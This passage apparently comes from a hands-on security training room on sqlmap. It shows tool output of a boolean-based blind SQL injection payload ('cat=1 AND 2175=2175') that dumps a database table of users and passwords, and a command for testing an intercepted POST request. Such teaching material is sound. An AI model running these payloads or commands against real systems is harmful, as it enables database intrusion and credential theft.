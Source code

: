 [text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]

        

However, unlike the URL used for testing above, you can also use POST-based testing, where the application sends data in the request's body instead of the URL. Examples of this could be login forms, registration forms, etc. To follow this approach, you must intercept a POST request on the login or registration page and save it as a text file. You can use the following command to input that request saved in the text file to the SQLMap tool:
Testing an intercepted request

           
user@ubuntu:~$ sqlmap -r intercepted_request.txt

        

Note: Learning how to intercept and capture POST requests is out-of-scope for this room.

